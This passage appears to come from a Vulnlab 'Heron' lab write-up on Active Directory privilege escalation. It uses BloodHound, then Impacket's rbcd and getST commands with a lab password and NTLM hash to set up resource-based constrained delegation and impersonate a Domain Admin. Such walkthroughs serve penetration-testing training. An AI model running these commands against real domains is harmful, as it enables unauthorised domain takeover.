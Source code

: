We marked the `ADM_PRJU` user as owned and used the "Shortest Path from Owned Principals" in BloodHound. We were able to see the following attack path:

<img src="attachments/d0f70c90c21b9f3ecfc4672bf580ac18.png" />

>The members of the group ADMINS_T1@HERON.VL have has write rights on all properties in the User Account Restrictions property set. Having write access to this property set translates to the ability to modify several attributes on computer MUCDC.HERON.VL, among which the msDS-AllowedToActOnBehalfOfOtherIdentity attribute is the most interesting. The other attributes in this set are listed in Dirk-jan's blog on this topic (see references). ~ Bloodhound

We needed to configure the target object so that the attacker-controlled computer could delegate to it. Impacket's `rbcd.py` script was used for that purpose.

```
impacket-rbcd -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'TargetComputer' -action 'write' 'domain/user:password'
```

```
impacket-rbcd -delegate-from 'FRAJMP$' -delegate-to 'MUCDC$' -action 'write' 'heron.vl/adm_prju:ayDMWV929N9wAiB4'
```

<img src="attachments/adb37988961383d5288760c5f5a7fa0b.png" />

Finally, we were able to get a service ticket for the service name (sname) we wanted to "pretend" to be "admin" for. Impacket's `getST.py` example script was used for that purpose.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Chains/Heron]
└─$ proxychains impacket-getST -spn 'cifs/MUCDC' -impersonate _admin -dc-ip '10.10.143.117' 'heron.vl/frajmp$' -hashes ':6f55b3b443ef192c804b2ae98e8254f7'
```

_We impersonated the '_admin' user since he was a Domain Admin of the `heron.vl` domain._